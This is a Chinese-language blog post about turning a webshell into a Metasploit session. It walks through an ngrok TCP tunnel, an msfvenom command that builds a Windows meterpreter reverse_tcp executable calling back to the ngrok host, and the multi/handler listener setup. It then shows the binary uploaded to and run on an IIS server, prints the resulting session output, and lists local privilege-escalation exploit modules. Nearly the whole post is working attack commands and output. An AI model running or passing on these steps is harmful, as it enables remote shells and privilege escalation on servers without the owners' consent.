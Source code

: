 ```yaml
---
title: "MSF Webshell 上线"
date: 2018-02-24T00:00:00+08:00
draft: false
tags: ['metasploit']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


ngrok 内网穿透, 搭配 metasploit 实现 webshell 上线.

<!--more-->

ngrok.cc 注册账号 开通隧道 类型 tcp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383205.jpg)

下载客户端

我的是 linux arm

运行

`./sunny clientid xxxx`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383245.jpg)

下面用 msfvenom 生成后门程序

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > /tmp/test.exe`

端口填之前开通隧道的远程端口

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.ngrok.cc LPORT=端口 -f exe > test.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

监听

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 端口
```

端口填之前开通隧道的本地端口

0.0.0.0 是为了监听所有地址

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
```

将生成的程序上传至服务器执行

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/23/1519383763.jpg)

成功反弹会话

```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (179779 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55460) at 2018-02-23 19:01:59 +0800

meterpreter> getuid
Server username IIS APPPOOL\baidu
meterpreter> sysinfo
Computer: WIN-XXOO
OS: Windows 2012 (Build 9200)
Architecture: x64
System Language: zh_CN
Domain: WORKGROUP
Logged on Users: 5
Meterpreter: x86/windows
meterpreter>
```

本地提权 exp 在 exploit/windows/local/ 下

```
msf exploit(multi/handler) > use exploit/windows/local/ms 
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_053_schlamperei
use exploit/windows/local/ms13_081_track_popup_menu
use exploit/windows/local/ms13_097_ie_registry_symlink
use exploit/windows/local/ms14_009_ie_dfsvc
use exploit/windows/local/ms14_058_track_popup_menu
use exploit/windows/local/ms14_070_tcpip_ioctl
use exploit/windows/local/ms15_004_tswbproxy
use exploit/windows/local/ms15_051_client_copy_image
use exploit/windows/local/ms15_078_atmfd_bof     
use exploit/windows/local/ms16_016_webdav
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
use exploit/windows/local/ms_ndproxy
```